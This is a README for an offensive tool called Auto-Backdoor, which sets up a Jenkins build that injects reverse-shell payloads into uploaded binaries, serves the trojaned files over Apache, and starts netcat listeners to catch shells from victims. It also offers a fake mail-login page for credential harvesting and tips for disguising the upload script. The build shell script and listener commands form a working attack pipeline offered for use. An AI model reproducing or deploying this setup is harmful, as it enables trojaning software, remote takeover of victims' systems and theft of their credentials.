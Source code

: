 # Auto-Backdoor
Need a jenkins server running, on it make a build, this build needs to be paramatized with the following text pramaters

`dir` 
`Payload_Type`
`port`
`IP`
`binName`


Usage: `python abd.py $BINARY $PLACE TO UPLOAD / DOWNLOAD $PUT SCRIPT LOCATION $JENKINS URL $Jenkins token $Jenkins project location $0 for linux $not used yet, always 0 $Backdoor callback port $backdoor callback ip / domain name`


##Jenkins configuration:

Standord jenkins build, easiest to change jenkins user to be same as www root if on save server (on ubuntu it is www-data, guide: http://blog.manula.org/2013/03/running-jenkins-under-different-user-in.html )
Need to edit the following in jenkins:


1. Make it a pramatrised build with the following
..1 dir
..2 Payload_Type
..3 port		(Note: For shell call back)
..4 IP		(Note: For shell call back)	
..5 binName
2. Check allow simotaius builds
3. Set allow remote triggred with a token
4.s Build shell with following:

```
rp=$(expr 1024 + $BUILD_NUMBER) #make it a port that is non-reserved and non-taken, should exclude 8080 and a few others
echo $rp
cp /in/$dir .
backdoor -f $dir -P $rp -H $IP -s reverse_shell_tcp
cp backdoored/$dir /var/www/html/out/$dir
echo "\nPutting $rp session //need ip address from victom here" >> /var/www/html/list_screens_go_to_what
## NEED SCREEN AND netcat-openbsd packages (sudo apt-get install netcat-openbsd) as default nc does not have the -k flag
screen -S L_$rp -d -m \'nc -lnvkp $rp\'
#screen -ls #debugging
```

##PHP Configuration:
I use apache2 with PHP5
`sudo apt-get install apache2 libapache2-mod-php5 php5-cgi`
move the put.php into /var/www/html/ and change the name to something that would not be susspisus
if you want there is a basic template for making it look like a mail login, with cred harvesting, move everything in mail/ to /var/www/html
edit `/etc/apache2/sites-enabled/000-default.conf` and add `DirectoryIndex index.php` to index.php
	
##To get shell back:
	nc -lnvp $Backdoor Port #wait for shell

For help email ABD@rahartshorn.com

--
Robert Hartshorn
